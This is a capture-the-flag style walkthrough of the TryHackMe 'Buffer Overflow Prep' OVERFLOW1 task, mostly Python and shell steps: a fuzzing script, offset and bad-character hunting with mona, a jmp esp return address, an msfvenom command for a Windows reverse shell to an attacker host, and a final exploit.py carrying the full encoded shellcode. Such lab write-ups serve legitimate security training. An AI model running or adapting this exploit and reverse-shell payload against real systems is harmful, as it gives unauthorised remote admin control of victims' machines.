

### **Buffer overflow - THM**

> This walktrough shows how to conduct buffer overflow, as an example I used tasks from "Buffer Overflow Prep" from [TryHackMe](https://tryhackme.com/room/bufferoverflowprep) site.

## **1. Fuzzing**

Fuzzing is sending garbage data to vulnerable entity to crash it and gain information about where (at which byte) the programm crashed.

*fuzzing.py*:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.90.240"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```



After running it, we will get information about where our program crashed (of course in approximation, because we fuzzed it with random data).

Crucial information: `Fuzzing crashed at 2000 bytes`

## **2. Finding offset and controlling instruction pointer (EIP)**

Now we will used information gathered during *fuzzing* to generate pattern.

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
```

We need to save output of command above. Now we will need the following script called *exploit.py*.

*exploit.py*:

```python
import socket

ip = "10.10.90.240"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "" # paste the pattern here
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Paste the created pattern into payload variable (because of its length I will not paste it here).

Now run the *exploit.py*


Now in Immunity Debugger write the command below:

```
!mona findmsp -distance 2000
```

> Log data, item 18 Address=0BADF00D Message=EIP contains normal pattern : 0x6f43396e (offset 1978)


Save the value of offset and put it into our *exploit.py*. Set also retn variable to e.g. "AAAA".

```python
import socket

ip = "10.10.90.240"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "AAAAA"
padding = ""
payload = "" # paste the pattern here
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

After running it, look at Registers in ImmunityDebugger


The EIP is now 41414141 and it is exacatly what we wanted! Reminder: "A" in ASCII is 41. So we controll the EIP register.


## **3. Bad chars**

We are going to generate a bytearray with mona, at start we should exclude "\x00" (null byte) by default.

    !mona bytearray -b "\x00"

The results in .bin file are stored in default working directory. Now we will generate bad chars with simple python script called *GenerateBadChars.py*

*GenerateBadChars.py*:
```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Now compare the content of ESP address with bytearray.bin with following mona command:

    !mona compare -f C:\mona\oscp\bytearray.bin -a 01AEFA30

Now update the *exploit.py* and replace *payload* variable with output generated by *GenerateBadChars.py*. Run the *exploit.py*.


Notice that not all of them must be bad chars, I think THM gave good explanation and what to do in that situation:

>Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

So we need to generate new bytearray.bin with next bad character:

    !mona bytearray -b "\x00\x07"

Run the programm again, remove the "\x07" from exploit.py and run it also.
Note the lowest bad char: "\x2e". Repeat process untill you get "Unmodified" status.

Finally we can state that the bad chars are: `\x00\x07\x2e\xa0`.

## **4. Finding jump point**

Type this command to list all *jmp esp* addresses:

    !mona jmp -r esp -cpb "\x00"

We need to choose one of them and put it in *retn* variable in our python script.


We chose *0x625011af* jmp esp address. Remember to do it backwards because the system is little-endian.

```python
import socket

ip = "10.10.90.240"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = ""
payload = "" # next chapter
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

## **5. Generating payload - msfvenom**


Using the command below we can generate windows shell (remember to put appropriate bad chars!):

    msfvenom -p windows/shell_reverse_tcp LHOST=10.18.63.113 LPORT=4445 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c


Copy the output and paste it into *payload* variable in our *exploit.py* script.

## **6. Final steps before exploit - adding NOPs**

We used encoder was used to generate shellcode we will need extra memory to unpack it, so we need to add "No operation" byte to make sure that our payload will execute. 

Final *exploit.py*:

```python
import socket

ip = "10.10.90.240"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = (
	"\xdb\xc8\xbd\x22\xe7\xaf\xc4\xd9\x74\x24\xf4\x5e\x31\xc9"
"\xb1\x52\x31\x6e\x17\x83\xee\xfc\x03\x4c\xf4\x4d\x31\x6c"
"\x12\x13\xba\x8c\xe3\x74\x32\x69\xd2\xb4\x20\xfa\x45\x05"
"\x22\xae\x69\xee\x66\x5a\xf9\x82\xae\x6d\x4a\x28\x89\x40"
"\x4b\x01\xe9\xc3\xcf\x58\x3e\x23\xf1\x92\x33\x22\x36\xce"
"\xbe\x76\xef\x84\x6d\x66\x84\xd1\xad\x0d\xd6\xf4\xb5\xf2"
"\xaf\xf7\x94\xa5\xa4\xa1\x36\x44\x68\xda\x7e\x5e\x6d\xe7"
"\xc9\xd5\x45\x93\xcb\x3f\x94\x5c\x67\x7e\x18\xaf\x79\x47"
"\x9f\x50\x0c\xb1\xe3\xed\x17\x06\x99\x29\x9d\x9c\x39\xb9"
"\x05\x78\xbb\x6e\xd3\x0b\xb7\xdb\x97\x53\xd4\xda\x74\xe8"
"\xe0\x57\x7b\x3e\x61\x23\x58\x9a\x29\xf7\xc1\xbb\x97\x56"
"\xfd\xdb\x77\x06\x5b\x90\x9a\x53\xd6\xfb\xf2\x90\xdb\x03"
"\x03\xbf\x6c\x70\x31\x60\xc7\x1e\x79\xe9\xc1\xd9\x7e\xc0"
"\xb6\x75\x81\xeb\xc6\x5c\x46\xbf\x96\xf6\x6f\xc0\x7c\x06"
"\x8f\x15\xd2\x56\x3f\xc6\x93\x06\xff\xb6\x7b\x4c\xf0\xe9"
"\x9c\x6f\xda\x81\x37\x8a\x8d\xa7\xd5\xab\x3c\xd0\xdb\xd3"
"\xaf\x7d\x55\x35\xa5\x6d\x33\xee\x52\x17\x1e\x64\xc2\xd8"
"\xb4\x01\xc4\x53\x3b\xf6\x8b\x93\x36\xe4\x7c\x54\x0d\x56"
"\x2a\x6b\xbb\xfe\xb0\xfe\x20\xfe\xbf\xe2\xfe\xa9\xe8\xd5"
"\xf6\x3f\x05\x4f\xa1\x5d\xd4\x09\x8a\xe5\x03\xea\x15\xe4"
"\xc6\x56\x32\xf6\x1e\x56\x7e\xa2\xce\x01\x28\x1c\xa9\xfb"
"\x9a\xf6\x63\x57\x75\x9e\xf2\x9b\x46\xd8\xfa\xf1\x30\x04"
"\x4a\xac\x04\x3b\x63\x38\x81\x44\x99\xd8\x6e\x9f\x19\xf8"
"\x8c\x35\x54\x91\x08\xdc\xd5\xfc\xaa\x0b\x19\xf9\x28\xb9"
"\xe2\xfe\x31\xc8\xe7\xbb\xf5\x21\x9a\xd4\x93\x45\x09\xd4"
"\xb1")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

## **7. Exploitation**

Set up listener on 4445 port, reset the programm in immunity debugger, start the *exploit.py* and we got remote access as an admin!


